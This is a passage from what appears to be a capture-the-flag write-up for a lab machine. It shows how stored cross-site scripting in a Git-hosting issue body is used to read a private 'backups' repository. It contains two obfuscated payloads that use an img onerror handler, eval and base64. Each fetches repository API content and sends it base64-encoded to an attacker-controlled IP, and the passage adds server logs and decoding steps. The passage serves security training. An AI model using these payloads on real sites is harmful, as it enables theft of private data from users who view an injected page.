 It is not..  nor is it directly at `http://dev.snippet.htb/charlie/backups/raw/branch/master/id_rsa`.. 
Instead of guessing blindly we can do a GET request to list the contents of the _backups_ repo:
```bash
## Issues body
<remove-me><img sRc="e" onerror=eval.call`${"eval\x28atob`ZmV0Y2goJ2h0dHA6Ly9kZXYuc25pcHBldC5odGIvYXBpL3YxL3JlcG9zL2NoYXJsaWUvYmFja3Vwcy9jb250ZW50cycpLnRoZW4ocmVzcG9uc2UgPT4gcmVzcG9uc2UudGV4dCgpKS50aGVuKGRhdGEgPT4gZmV0Y2goJ2h0dHA6Ly8xMC4xMC4xNC4xMC8nK2J0b2EoZGF0YSkpKQo=`\x29"}`>

## HTTP Server
10.10.11.171 - - [10/Sep/2022 11:28:09] "GET /W3sibmFtZSI6 [... snip ...]

➜  extension echo "W3sibmFtZSI6 [... snip ...]" | base64 -d > tmp_backups-content.txt
➜  extension python3 -m json.tool tmp_backups-content.txt > xss_repo-backups-content.json
➜  extension cat xss_repo-backups-content.json
[
    {
        "name": "backup.tar.gz",
        "path": "backup.tar.gz",
        "sha": "c25cb9d1f1d83bdad41dad403874c2c9b91d0b57",
        "type": "file",
        "size": 4316,
        "encoding": null,
        "content": null,
        "target": null,
        "url": "http://dev.snippet.htb/api/v1/repos/charlie/backups/contents/backup.tar.gz?ref=master",
        "html_url": "http://dev.snippet.htb/charlie/backups/src/branch/master/backup.tar.gz",
        "git_url": "http://dev.snippet.htb/api/v1/repos/charlie/backups/git/blobs/c25cb9d1f1d83bdad41dad403874c2c9b91d0b57",
        "download_url": "http://dev.snippet.htb/charlie/backups/raw/branch/master/backup.tar.gz",
        "submodule_git_url": null,
        "_links": {
            "self": "http://dev.snippet.htb/api/v1/repos/charlie/backups/contents/backup.tar.gz?ref=master",
            "git": "http://dev.snippet.htb/api/v1/repos/charlie/backups/git/blobs/c25cb9d1f1d83bdad41dad403874c2c9b91d0b57",
            "html": "http://dev.snippet.htb/charlie/backups/src/branch/master/backup.tar.gz"
        }
    }
]
```

We find a nice ``download_url`` go at it one last time and `fetch(http://dev.snippet.htb/charlie/backups/raw/branch/master/backup.tar.gz)`.
At this point I noticed a problem, the base64 created to download `backup.tar.gz` contained `+` signs and all payloads containing `+` had not worked - neither did this one..
So instead I aimed for `http://dev.snippet.htb/api/v1/repos/charlie/backups/git/blobs/c25cb9d1f1d83bdad41dad403874c2c9b91d0b57` and thank god no `+` and we're able to extract the content.

```bash
## Issues body
<remove-me><img sRc="e" onerror=eval.call`${"eval\x28atob`ZmV0Y2goJ2h0dHA6Ly9kZXYuc25pcHBldC5odGIvYXBpL3YxL3JlcG9zL2NoYXJsaWUvYmFja3Vwcy9naXQvYmxvYnMvYzI1Y2I5ZDFmMWQ4M2JkYWQ0MWRhZDQwMzg3NGMyYzliOTFkMGI1NycpLnRoZW4ocmVzcG9uc2UgPT4gcmVzcG9uc2UudGV4dCgpKS50aGVuKGRhdGEgPT4gZmV0Y2goJ2h0dHA6Ly8xMC4xMC4xNC4xMC8nK2J0b2EoZGF0YSkpKQo=`\x29"}`>

## HTTP Server
10.10.11.171 - - [10/Sep/2022 11:46:20] "GET /eyJjb250 [... snip ...]

➜  extension echo "eyJjb250 [... snip ...]" | base64 -d > tmp_backups.txt
➜  extension python3 -m json.tool tmp_backups.txt > xss_backups-blob.json
➜  extension cat xss_backups-blob.json
{
    "content": "H4sIANO61GEAA [... snip ...]",
```